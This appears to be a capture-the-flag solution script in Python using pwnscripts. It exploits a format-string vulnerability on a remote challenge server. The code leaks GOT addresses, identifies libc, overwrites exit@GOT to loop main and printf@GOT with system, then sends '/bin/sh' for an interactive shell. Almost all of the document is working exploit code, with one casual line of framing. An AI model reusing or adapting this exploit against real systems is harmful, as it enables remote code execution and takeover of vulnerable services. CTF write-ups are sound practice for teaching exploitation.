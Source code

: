 ## final script if something is broken above idk
```python
from pwnscripts import *
context.binary = 'secret'
context.binary.symbols['main'] = 0x401176   # extremely unfortunate hardcoded value
context.libc_database = 'libc-database'
# pre-remote probing
def printf(s):
    r = remote('challs.xmas.htsp.ro', 14712)
    r.sendline('GumaTurbo123!')
    r.sendafter('14712\n', s)
    return r.recvall()
offset = fsb.find_offset.buffer(printf,50)
GOT_FUNCS = ['puts','setvbuf']
addr_bytes = fsb.leak.dereference(printf, offset, [context.binary.got[f] for f in GOT_FUNCS])
libc_addrs = dict(zip(GOT_FUNCS,map(lambda b: unpack_bytes(b,6), addr_bytes)))
context.libc = context.libc_database.libc_find(libc_addrs)
# loop over main()
r = remote('challs.xmas.htsp.ro', 14712)
def cycle(s, until=None):
    r.sendline('GumaTurbo123!')
    r.sendlineafter('14712\n', s)
    if until is None: return None
    return r.recvuntil(until)
cycle(fmtstr_payload(offset, {context.binary.got['exit']: context.binary.symbols['main']}),b'a')
# return to libc
puts, = fsb.leak.dereference(lambda s: cycle(s,b'$$'), offset, [context.binary.got['puts']])
context.libc.calc_base('puts', unpack_bytes(puts,6))
cycle(fmtstr_payload(offset, {context.binary.got['printf']: context.libc.symbols['system']}),b'a')
cycle('/bin/sh\0')
r.interactive()
```
